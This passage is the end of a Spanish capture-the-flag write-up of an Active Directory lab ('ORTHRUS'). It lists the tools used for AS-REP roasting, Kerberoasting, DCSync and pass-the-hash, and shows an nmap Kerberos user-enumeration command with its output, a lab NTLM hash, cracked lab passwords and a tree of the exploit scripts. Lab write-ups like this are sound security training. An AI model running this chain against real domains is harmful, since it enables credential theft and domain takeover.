| Cuenta pivotada | `svc_sql` (miembro de `BUILTIN\Administrators`) |
| Hash NTLM de Administrator | `88e1db77ee01e9e14dfc4dac2617f266` |
| Patrón de eventos | 4768 sin preauth (etypes RC4) y 4769 con RC4; 4662 con replicación desde una cuenta no-DC |
| Fichero exfiltrado | `C:\Users\Administrator\Desktop\FLAG_DOMAIN_ADMIN.txt` |

---

## 10. Herramientas utilizadas

| Herramienta | Uso |
|---|---|
| `nmap` | Descubrimiento de hosts y escaneo completo de puertos y servicios |
| `nmap --script krb5-enum-users` | Enumeración de usuarios por Kerberos sin código propio (ver §11) |
| `dig` | Enumeración DNS y comprobación de `AXFR` |
| `smbclient`, `rpcclient`, `enum4linux` | Enumeración anónima de SMB/RPC |
| `ldapsearch` | Consulta de usuario, equipos y grupos tras obtener credenciales |
| `crackmapexec` | Validación de credenciales, shares, política y pass-the-hash |
| `impacket-GetNPUsers` | AS-REP roasting (crackeo offline) |
| `impacket-GetUserSPNs` | Kerberoasting (crackeo offline) |
| `impacket-secretsdump` | DCSync del hash de `Administrator` |
| `impacket-wmiexec` | Ejecución remota con pass-the-hash para leer la bandera |
| `john` (`krb5asrep`, `krb5tgs`) | Crackeo de los hashes con `rockyou.txt` |
| `exploits/krbenum.py` | Enumeración de usuarios por Kerberos (herramienta propia; sustituible por el script de `nmap`, ver §11) |
| `Pillow` | Generación de las capturas PNG del writeup |

> `hashcat` se intentó primero, pero la máquina virtual no tenía memoria asignable suficiente
> (`Not enough allocatable device memory`); `john` resolvió ambos hashes en menos de un segundo.

---

## 11. Reproducción solo con herramientas de Kali

Toda la cadena de ORTHRUS se reproduce con herramientas **preinstaladas en Kali**: no hace falta
instalar nada ni escribir ningún exploit. El único script propio del repositorio, el enumerador
`krbenum.py`, es un atajo (sondeo en paralelo y clasificación explícita de los códigos `KRB-ERROR`);
su papel lo cubre el script nativo de `nmap`:



| Paso de la cadena | Herramienta de Kali |
|---|---|
| Enumeración de usuarios por Kerberos | `nmap --script krb5-enum-users` |
| AS-REP roasting | `impacket-GetNPUsers` + `john` |
| Kerberoasting | `impacket-GetUserSPNs` + `john` |
| Validación de administrador local | `crackmapexec smb` |
| DCSync | `impacket-secretsdump` |
| Pass-the-hash y lectura de la bandera | `impacket-wmiexec` |

La enumeración nativa, con el mismo diccionario de 144 candidatos:

```bash
nmap -Pn -p 88 --script krb5-enum-users \
  --script-args krb5-enum-users.realm='corp.local',userdb=wordlists/users_corp.txt \
  172.16.202.130
```

```
| krb5-enum-users:
| Discovered Kerberos principals
|     svc_backup@corp.local
|     svc_sql@corp.local
|_    administrator@corp.local
```

Devuelve las tres cuentas relevantes en menos de un segundo. La diferencia con `krbenum.py` es que
`nmap` no lista las cuentas deshabilitadas (`guest`, `krbtgt`), pero para la cadena basta con
`svc_backup` (la única AS-REP roastable) y `svc_sql` (el objetivo del Kerberoasting).

El script `exploits/chain_kali.sh` encadena todos los pasos con estas herramientas y se verificó de
principio a fin —AS-REP → `svc_backup:Password123` → Kerberoast → `svc_sql:Password123` → `Pwn3d!` →
DCSync → pass-the-hash → bandera— sin usar nada propio.

> `kerbrute` no viene preinstalado en esta Kali, pero tampoco es necesario: el script de `nmap` forma
> parte de la instalación estándar.

---

## 12. Estructura del repositorio de trabajo

```
ORTHRUS/
├── README.md              ← este writeup
├── notes/bitacora.md      ← bitácora del análisis y decisiones
├── recon/                 ← salidas de reconocimiento
│   ├── nmap-full.txt, nmap-servicio.txt, dns.txt
│   ├── smb-null.txt, ldap-anonimo.txt, cme-null.txt
│   ├── enum4linux.txt, shares-politica.txt
│   ├── kerberos-usuarios.txt, krb-nmap.txt
│   ├── ldap-usuarios.txt, ldap-equipos.txt, ldap-grupos.txt
│   └── asrep.txt, asrep-crack.txt, kerberoast.txt, tgs-crack.txt,
│       svc_sql-admin.txt, pth.txt, flag-read.txt
├── exploits/              ← utilidades y reproducción de la cadena
│   ├── krbenum.py         ← enumerador Kerberos (herramienta propia)
│   ├── asrep_roast.sh     ← AS-REP roasting
│   ├── kerberoast.sh      ← Kerberoasting
│   ├── dcsync.sh          ← DCSync de Administrator
│   ├── chain.sh           ← cadena completa de principio a fin
│   └── chain_kali.sh      ← la misma cadena solo con herramientas de Kali
├── wordlists/             ← diccionario de usuarios y su README
│   ├── users_corp.txt     ← 144 candidatos (5 cuentas reales)
│   └── README.md
├── loot/                  ← hashes, volcado de DCSync y bandera
│   ├── asrep_hash.txt, tgs_hash.txt
│   ├── dcsync-administrator.txt
│   └── FLAG_DOMAIN_ADMIN.txt
├── shots/                 ← captura y render de las imágenes
│   ├── capture.sh, build_images.sh
│   ├── text2png.py
│   └── captures/          ← salidas de texto (ignoradas por git)
└── docs/img/              ← imágenes del writeup
```
